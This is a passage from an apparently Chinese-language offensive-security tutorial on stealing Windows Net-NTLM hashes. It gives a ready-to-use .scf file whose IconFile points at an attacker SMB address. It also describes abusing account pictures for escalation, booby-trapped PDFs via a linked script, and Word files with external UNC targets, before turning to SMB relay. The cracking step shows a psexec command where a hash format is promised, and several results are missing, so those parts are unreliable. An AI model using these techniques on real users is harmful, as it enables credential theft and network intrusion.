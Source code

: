 #### SCF文件利用

scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，而IconFile是支持UNC路径的，以下是scf后缀的文件的格式

```
[Shell]
Command=2
IconFile=\\192.168.188.129\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建test.scf，之后写入以上内容并将其放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的net-ntlm hash~

#### 用户头像利用

此方法适用于Windows 10/2016/2019，在更改账户图片处用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问192.168.188.129，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个也可以用来提权<br/>  

随后可以获得NTLM-Hash值：

#### 通过构造PDF获取

PDF规范允许为GoTobe和GoToR条目加载远程内容，PDF文件可以添加一项功能，请求远程SMB服务器的文件，我们直接使用三好学生的脚本https://github.com/3gstudent/Worse-PDF

当受害者使用PDF阅读器打开恶意的PDF时可导致载荷成功执行，并返回NTLM-Hash

PS：经过笔者测试发现如果是使用Chrome或者IE浏览器打开PDF文件，并不会执行~

#### Office应用程序

首先新建一个word，贴进一张图片

然后用7zip打开(没测试其他软件，可自行测试)，之后进入word_rels，修改document.xml.rels

可以看到Target参数本来是本地的路径

修改为UNC路径，然后加上TargetMode="External"

当打开word的时候,我们就拿到Net-NTLM Hash

#### Net-NTLM Crack

我们可以使用hashcat来破解Net-NTLM的哈希值，格式如下：

```
./psexec.py hacker/administrator:'admin'@192.168.188.3
```

### Net-NTLM Relay

#### SMB中继

##### 中继原理

客户端在连接服务端时默认先使用本机的用户名和密码Hash尝试登录，所以可以模拟SMB服务器从而截获其它PC的Net-NTLM Hash，而作为中继的机器必须要有域管理员权限或本地管理员权限，且被中继的机器要关闭SMB签名认证，否则无法去做中继。
